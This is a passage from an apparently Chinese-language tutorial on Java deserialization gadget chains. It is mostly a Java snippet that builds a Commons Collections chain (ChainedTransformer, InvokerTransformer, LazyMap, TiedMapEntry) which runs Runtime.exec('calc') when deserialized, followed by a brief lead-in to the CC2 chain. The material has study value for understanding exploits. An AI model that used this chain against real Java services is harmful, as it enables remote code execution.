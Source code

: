 ```java
    }

    public static void test1() throws Exception{
        Transformer[] trueTransformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.lazyMap(innerMap,chainedTransformer);


        TiedMapEntry tiedMapEntry = new TiedMapEntry<>(outerMap,"feng1");
        Map expMap = new HashMap();

        expMap.put(tiedMapEntry,"feng2");

        outerMap.remove("feng1");

        Class clazz = Class.forName("org.apache.commons.collections4.functors.ChainedTransformer");
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer,trueTransformers);
        byte[] bytes = SerializeUtil.serialize(expMap);
        SerializeUtil.unserialize(bytes);
```



CC2这条新链新在哪里呢？新在这多出的两个类。





## PriorityQueue
